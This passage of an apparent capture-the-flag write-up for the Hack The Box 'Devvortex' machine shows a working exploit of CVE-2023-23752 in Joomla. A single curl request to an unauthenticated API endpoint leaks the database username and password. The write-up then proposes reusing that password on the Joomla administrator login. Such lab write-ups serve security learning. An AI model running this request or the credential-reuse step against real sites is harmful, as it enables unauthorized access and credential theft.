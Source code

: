 ```bash
```



# Credential for `lewis`

### CVE-2023-23752

Let's google if there's any vulnerabilities in the joomla version.
I found that there's an article exploiting CVE-2023-23752:
https://vulncheck.com/blog/joomla-for-rce

This provides several methods to exploit the vulnerbility.

Let' try the first one.
It says `/api/index.php/v1/config/application?public=true` access exposes server credential. Let's try this.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ curl http://dev.devvortex.htb/api/index.php/v1/config/application?public=true
{"links":{"self":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"This site is down for maintenance.<br>Please check back again soon.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"Development","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":"0","id":224}},{"type":"application","id":"224","attributes":{"list_limit":20,"id":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"debug":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang_const":true,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"localhost","id":224}},{"type":"application","id":"224","attributes":{"user":"lewis","id":224}},{"type":"application","id":"224","attributes":{"password":"P4ntherg0t1n5r3c0n##","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"sd4fg_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}],"meta":{"total-pages":4}} 
```

As expected, it reveals the server's credential : `lewis` : `P4ntherg0t1n5r3c0n##`

This is an mysql credential, so that it has no use if we don't have access to mysql service.
Instead, assuming that the user `lewis` is using the same credential at `joomla`, let's try logging-in to the `/administrator` page.

![](attachments/devvortex_3.png)
